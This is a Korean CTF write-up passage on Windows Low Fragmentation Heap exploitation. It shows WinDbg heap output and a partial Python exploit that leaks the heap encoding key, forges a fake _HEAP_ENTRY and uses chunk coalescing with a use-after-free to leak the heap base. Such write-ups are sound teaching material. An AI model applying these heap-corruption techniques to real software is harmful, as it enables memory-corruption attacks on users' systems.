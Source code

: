 분석하다 알게된 신기한 사실 중 하나는 `5. LazyFileHandler`에서 `1. ReadFile`로 **magic.txt**에 대한 FILE 구조체를 생성하면 해당 구조체가 LFH가 활성화된 Heap 영역에 할당된다는 점입니다.

```
0:001> dqs lazyfragmentationheap+5628 l1
00007ff6`521f5628  000001b7`d069a8b0

0:001> !heap -i 000001b7`d069a8b0-10
Detailed information for block entry 000001b7d069a8a0
Assumed heap       : 0x000001b7d0690000 (Use !heap -i NewHeapHandle to change)
Header content     : 0xE76D0D32 0x88000D43
Block flags        : 0x1 LFH (busy )
Total block size   : 0x6 units (0x60 bytes)
Requested size     : 0x58 bytes (unused 0x8 bytes)
Subsegment         : 0x000001b7d069bb90
```

LFH는 **_HEAP_SUBSEGMENT->BlockCount**보다 많은 개수의 Heap chunk를 생성하게 되면 새로운 UserBlock과 SubSegment를 할당해 사용합니다. 이러한 원리를 이용해 LFH가 UAF로 접근할 수 있는 chunk 4를 사용하게 만든다면 아래와 같이 FILE 구조체를 조작할 수 있습니다.

```python
# skip for brevity...

alloc(1, SIZE)
edit(1, "A" * SIZE)
try:
	heap_encod = u64(show(1)[SIZE:] + "\x00\x10") ^ 0x1000000d02010003
except struct.error:
	log.error("_HEAP_ENTRY not leaked")
	sys.exit(-1)

log.info("_HEAP->Encoding = 0x%016x" % heap_encod)
alloc(2, 0x268)
alloc(3, 0x200)

fake_entry = 0x10000027c80101c8 ^ heap_encod
'''
0x10000027c80101c8
   +0x008 Size             : 0x1c8
   +0x00a Flags            : 0x1 ''
   +0x00b SmallTagIndex    : 0xc8 ''
   +0x008 SubSegmentCode   : 0xc80101c8
   +0x00c PreviousSize     : 0x27
   +0x00e SegmentOffset    : 0 ''
   +0x00e LFHFlags         : 0 ''
   +0x00f UnusedBytes      : 0x10 ''
'''
log.info("fake XOR'ed _HEAP_ENTRY = 0x%016x" % fake_entry)

alloc(4, 0x1c80 -  # fake chunk size 
         0x20   -  # sizeof(_HEAP_ENTRY) * 2
         0x200     # orginal size of overwritten chunk
) 

open_file()
read_file(2, 0x268)
edit(2, "A" * 0x268 + p64(fake_entry)[:6], False)

free(3)         # free coalesce mechanism also free'ing chunk 4
alloc(3, 0x200) # set Flink and Blink at chunk 4

heap_base = u64(show(4)[:8].ljust(8, p8(0))) - 0x150
if heap_base == 0:
	log.error("Heap address not leaked")
	sys.exit(-1)
```